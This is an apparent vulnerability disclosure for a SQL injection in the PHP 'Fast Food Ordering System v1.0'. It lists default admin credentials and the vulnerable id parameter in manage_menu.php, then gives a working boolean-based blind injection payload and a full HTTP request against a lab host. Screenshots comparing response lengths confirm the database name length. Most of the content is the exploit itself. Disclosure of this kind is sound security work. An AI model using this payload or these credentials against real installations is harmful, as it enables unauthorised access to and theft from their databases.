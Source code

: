 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/admin/menus/manage_menu.php?id=

Vulnerability location: /ffos/admin/menus/manage_menu.php?id=, id

Current database name: ffos_db,length is 7

[+] Payload: /ffos/admin/menus/manage_menu.php?id=1%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /ffos/admin/menus/manage_menu.php?id=1%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close
```

When length (database ()) = 6, Content-Length: 3743
![image](https://user-images.githubusercontent.com/54017627/171352081-15db73c0-5dff-4050-9d99-4f019fd8edd9.png)

![image](https://user-images.githubusercontent.com/54017627/171351869-64d809ff-da2f-45b1-b3cb-922de4751a62.png)

When length (database ()) = 7, Content-Length: 3908
![image](https://user-images.githubusercontent.com/54017627/171352050-449f15b7-73e9-486b-9259-8f184f91fae6.png)

![image](https://user-images.githubusercontent.com/54017627/171351840-39e0f1a8-1a4d-4ed1-aec1-14527775c190.png)
